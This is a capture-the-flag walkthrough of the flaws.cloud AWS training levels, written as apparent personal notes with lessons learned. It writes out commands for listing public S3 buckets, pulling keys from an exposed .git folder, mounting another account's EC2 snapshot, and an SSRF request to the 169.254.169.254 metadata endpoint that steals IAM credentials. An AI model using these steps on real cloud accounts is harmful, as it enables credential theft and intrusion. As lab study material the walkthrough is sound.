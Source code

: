 # http://flaws.cloud/

# Level 1: This level is *buckets* of fun. See if you can find the first sub-domain.
Find first subdomain:
- The `hint 1` said that this site http://flaws.cloud/ is hosted as an S3 bucket. So I think we should find the bucket name of this S3. The facts also said that: When hosting a site as an S3 bucket, the bucket name (flaws.cloud) must match the domain name (flaws.cloud).
- Let's try this site flaws.cloud as a bucket name.
- Using the AWS CLI tool: `aws s3 ls s3://flaws.cloud`, when using this CLI tool, You do not need to know the region where the s3 bucket is hosted, so with above command, if the bucket is exist, you can see the bucket file. 
- The other way: http://flaws.cloud.s3.amazonaws.com/
- Get `secret file`: `http://flaws.cloud.s3.amazonaws.com/secret-dd02c7c.html`. Chall done.
- Lesson learn: One tip to check wheather a site is hosted as an S3 bucket: Using nslookup command, if you see the IP point to s3 nameserver -> s3 bucket
# Level 2: Same Level1:
- Using command: `aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`
- Checking the secret file: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.s3.amazonaws.com/secret-e4443fc.html
# Level 3: 
- Using command: `aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud`
- Found /.git -> using gitdumper: `./gitdumper.py http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git 
- or sync this bucket to local: `aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2`
- git checkout > get secret key, access key ID. 
- Using command `aws --profile flaws configure` to configure new profile with these key
# Level 4: 
For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

- The website is runing on EC2 instance, the facts also said that a snapshot was made of that EC2.
- Let's check the snapshot using aws cli with above profile:
- Get account-ids: `aws --profile flaws sts get-caller-identity`.
- Get snapshot by accound-id: `aws ec2 describe-snapshots --profile flaws --owner-id 975426262029` 
- Create volumn from snapshot: `aws ec2 create-volume --availability-zone us-west-2b --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89`
- Attach volumn to instance:
   - Create ec2: I'm using aws console
   - Attach volumn to ec2 you just created.
- Connect to the EC2 instance
- Mount disk: mount /dev/<> /mnt
- Cat password: cat /mnt/home/ubuntu/setupNginx.sh
- Lesson learned: 
AWS allows you to make snapshots of EC2's and databases (RDS). The main purpose for that is to make backups, but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords. This also allows attackers to get access to things. Snapshots are normally restricted to your own account, so a possible attack would be an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's and then uses that to snapshot an EC2 and spin up an EC2 with that volume in your environment to get access to it. Like all backups, you need to be cautious about protecting them.
# Lesson 5: SSRF AWS steal aws key
- This EC2 has a simple HTTP only proxy on it. via access a website through http://chall-url/proxy/website.
- This website do not validate the url from user, so we can perform an SSRF to specified IP:`169.254.169.254` to get key information about IAM user.
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
- Add key to aws configure file: `/.aws/credential`
- List level 6 bucket: `aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws`

- Lession learned:
The IP address 169.254.169.254 is a magic IP in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves. Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header. AWS has recently created a new IMDSv2 that requires special headers, a challenge and response, and other protections, but many AWS accounts may not have enforced it. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see.
Examples of this problem
Nicolas GrÃ©goire discovered that prezi allowed you point their servers at a URL to include as content in a slide, and this allowed you to point to 169.254.169.254 which provided the access key for the EC2 intance profile (link). He also found issues with access to that magic IP with Phabricator and Coinbase.
A similar problem to getting access to the IAM profile's access keys is access to the EC2's user-data, which people sometimes use to pass secrets to the EC2 such as API keys or credentials.
Avoiding this mistake
Ensure your applications do not allow access to 169.254.169.254 or any local and private IP ranges. Additionally, ensure that IAM roles are restricted as much as possible.

# Level 6:
- Get Username: `aws --profile level6 iam get-user` : Level6
- Get attached inline polices to this user: `aws iam list-attached-user-policies --user-name Level6 --profile level6`: list_apigateways, MySecurityAudit
- Get version to get detail about policy:
- `aws iam list-policy-versions --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --profile level6`

- `aws iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile level6`
- See hidden resource: `"Resource": "arn:aws:apigateway:us-west-2::/restapis/*"`

- `aws iam get-policy-version --policy-arn arn:aws:iam::aws:policy/SecurityAudit --version-id v35 --profile level6`

- List lambda function: `aws lambda list-functions --profile level6`
- get policy details:  `aws --profile level6 lambda get-policy --function-name Level6`. Because the MySecurityAudit policy allow this :D

